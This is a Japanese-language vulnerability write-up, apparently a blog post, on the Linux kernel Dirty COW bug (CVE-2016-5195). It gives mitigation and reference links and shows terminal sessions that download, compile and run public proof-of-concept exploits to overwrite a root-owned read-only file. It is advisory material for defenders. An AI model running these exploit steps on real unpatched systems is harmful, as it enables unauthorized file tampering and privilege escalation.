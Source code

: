 ```yaml
---
layout: post
title:  "CVE-2016-5195 - Dirty Cow"
date:   2016-10-21 12:00:00 +0900
categories: vlunerability
toc: true
---
```


# CVE-2016-5195

## 概要

本脆弱性は適切なアクセス権が設定されていない変更を防ぐことになる標準許可メカニズムをバイパスして、書き込み権限のないファイルに対しての書き込みをローカルシステムアカウントを用いて可能にします。 これは、メモリ内の実行可能mmapのページを有し、かつmadvise（MADV_DONTNEED）システムコールをレースすることによって達成されます。
すべてのローカルユーザーが読むことができる任意のファイルに書き込むことができます。

## CVSS v3

2016/10/24日時点でNVDには未公開

## 解決策、緩和策情報

 * Kernelのupdate
 * [緩和策](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c13)

## 影響を受けるソフトウェアとバージョン

 * Linux Kernel 2.6.22 - 2016年10月18日より前に出たkernel

redhat、centosには脆弱なversionを特定するためのスクリプトが存在します。このスクリプトはredhat,centosの標準的なカーネルを精査することはできますが、独自でビルドしたカーネルについては検出することができません。

 * https://access.redhat.com/security/vulnerabilities/2706661

## 技術的な詳細

 * [修正コミット](https://git.kernel.org/cgit/linux/kernel/git/stable/linux-stable.git/commit/?id=89eeba1594ac641a30b91942961e80fae978f839)

### debian 8.6 jessie

 * dirtyc0w exploit 

```
kosuke@CVE-2016-5195 ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.6 (jessie)
Release:        8.6
Codename:       jessie
kosuke@CVE-2016-5195 ~ $ sudo -s
root@CVE-2016-5195:/home/kosuke# echo this is not a test > foo
root@CVE-2016-5195:/home/kosuke# chmod 0404 foo
root@CVE-2016-5195:/home/kosuke# exit
exit
kosuke@CVE-2016-5195 ~ $  ls -lah foo
-r-----r-- 1 root root 19 10月 21 16:28 foo
kosuke@CVE-2016-5195 ~ $ cat foo
this is not a test
kosuke@CVE-2016-5195 ~ $  gcc -lpthread dirtyc0w.c -o dirtyc0w
kosuke@CVE-2016-5195 ~ $ ./dirtyc0w foo m00000000000000000
mmap 7c6cb000

madvise 0

procselfmem 1800000000

kosuke@CVE-2016-5195 ~ $ cat foo
m00000000000000000
```

 * pokemon exploit

```
kosuke@CVE-2016-5195 ~ $ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
kosuke@CVE-2016-5195 ~ $ echo pikachu|sudo tee pokeball;ls -l pokeball;gcc -pthread pokemon.c -o d;./d pokeball miltank;cat pokeball
pikachu
-rw-r--r-- 1 root root 8 10月 24 10:13 pokeball
pokeball
   (___)
   (o o)_____/
    @@ `     \
     \ ____, /miltank
     //    //
    ^^    ^^
mmap bbc02000

madvise 0

ptrace 0

miltank

kosuke@CVE-2016-5195 ~ $ cat pokeball
miltank
```


## 追跡が必要な情報源

 * [CERT](https://www.kb.cert.org/vuls/byid?query=CVE-2016-5195&searchview=)
 * [Debian](https://security-tracker.debian.org/tracker/CVE-2016-5195)
 * [Github](https://github.com/search?q="CVE-2016-5195")
 * [LWN](https://lwn.net/Search/DoSearch?words=CVE-2016-5195)
 * [NVD](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5195)
 * [PacketStorm](https://packetstormsecurity.com/search/?q=CVE-2016-5195)
 * [Redhat](https://access.redhat.com/security/cve/CVE-2016-5195)
 * [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2016-5195.html)
 * [bugtraq](https://marc.info/?s=CVE-2016-5195&l=bugtraq)
 * [bugzilla](https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2016-5195)
 * [centos](https://www.centos.org/forums/search.php?keywords=CVE-2016-5195)
 * [cvedetail](http://www.cvedetails.com/cve/CVE-2016-5195/)
 * [exploitdb](https://www.exploit-db.com/search/?action=search&cve=2016-5195)
 * [fulldisc](https://marc.info/?s=CVE-2016-5195&l=full-disclosure)
 * [metasploit](https://www.rapid7.com/db/search?q=CVE-2016-5195)
 * [oss-sec](https://marc.info/?s=CVE-2016-5195&l=oss-security)
 * [twitter](https://twitter.com/search?q=CVE-2016-5195)

# 参考文献

 * http://dirtycow.ninja/
 * https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c
 * http://news.softpedia.com/news/linux-kernel-zero-day-cve-2016-5195-patched-after-being-deployed-in-live-attacks-509494.shtml?utm_content=buffere34c2&utm_medium=social&utm_source=linkedin.com&utm_campaign=buffer
 * https://twitter.com/DirtyCOWVuln
 * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
 * http://www.cyberciti.biz/faq/dirtycow-linux-cve-2016-5195-kernel-local-privilege-escalation-vulnerability-fix/
 * https://linuxjm.osdn.jp/html/LDP_man-pages/man2/madvise.2.html
 * http://www.nminoru.jp/~nminoru/programming/view_process_mem.html
 * https://git.kernel.org/cgit/linux/kernel/git/stable/linux-stable.git/commit/?id=89eeba1594ac641a30b91942961e80fae978f839
 * https://linuxjm.osdn.jp/html/LDP_man-pages/man2/lseek.2.html
 * http://www.cyberciti.biz/faq/dirtycow-linux-cve-2016-5195-kernel-local-privilege-escalation-vulnerability-fix/
 * https://linuxjm.osdn.jp/html/LDP_man-pages/man2/mmap.2.html
 * https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
 * http://japan.zdnet.com/article/35090987/
 * http://www.theregister.co.uk/2016/10/21/linux_privilege_escalation_hole/

